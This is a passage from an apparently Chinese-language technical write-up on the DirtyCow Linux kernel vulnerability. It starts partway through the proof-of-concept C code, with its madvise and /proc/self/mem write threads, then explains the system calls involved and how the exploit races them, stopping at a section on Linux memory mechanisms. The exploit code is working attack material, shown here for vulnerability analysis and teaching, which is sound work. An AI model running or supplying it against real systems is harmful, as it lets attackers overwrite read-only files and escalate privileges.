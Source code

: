 ```c
  printf("madvise %d\n\n",c);
}

void *procselfmemThread(void *arg)
{
  char *str;
  str=(char*)arg;
  int f=open("/proc/self/mem",O_RDWR);
  int i,c=0;
  for(i=0;i<100000000;i++) {
    lseek(f,map,SEEK_SET);
    c+=write(f,str,strlen(str));
  }
  printf("procselfmem %d\n\n", c);
}

int main(int argc,char *argv[])
{
  if (argc<3)return 1;
  pthread_t pth1,pth2;
  f=open(argv[1],O_RDONLY);
  fstat(f,&st);
  name=argv[1];
  map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
  printf("mmap %x\n\n",map);
  pthread_create(&pth1,NULL,madviseThread,argv[1]);
  pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
  pthread_join(pth1,NULL);
  pthread_join(pth2,NULL);
  return 0;
}
```

可见这个PoC的代码也非常简单易懂，需要了解linux的6个系统调用，可以通过man手册查询：

- open:  打开一个文件系统中的文件，返回文件描述符
- write: 向打开的文件描述符中，写相应的内容
- fstat: 获得文件描述符指向的文件的更多信息，如文件大小等
- mmap:  通过文件描述符，将已经打开的文件映射到内存中
- lseek: 按照偏移更改文件描述符的指针
- madvise: 将自己的主动的控制内存的行为告知操作系统内核

这里首先main函数打开要修改的文件，并且以只读和私有方式映射到内存中（正常操作时用open方法打开的文件不会加载到用户态的内存中），然后启动两个线程，procselfmemThread线程不断写那段内存，madviseThread线程不断释放那段内存。所以关键的就是分析两个不断：

- 怎么个不断写内存？
- 又怎么个不断释放内存？

而且我们要修改的是文件，是文件系统的中的概念，物理的存储在磁盘上，那么为什么我们这里不断修改内存，最终会影响磁盘上的内容呢？我们并没有对main函数里open的那个文件进行任何的修改呀！所以想要回答上面的三个问题，搞懂DirtyCow的工作原理，必须要明白相关的linux的管理机制，也就是要明白这个漏洞是linux的内核漏洞，要分析操作系统的代码。而且这里我们不能仅仅分析操作系统给每个程序划分的4G虚拟的内存空间了（32位下），还要分析真实的物理内存，即对应到电脑上的内存条上的地址。

## 相关的Linux机制
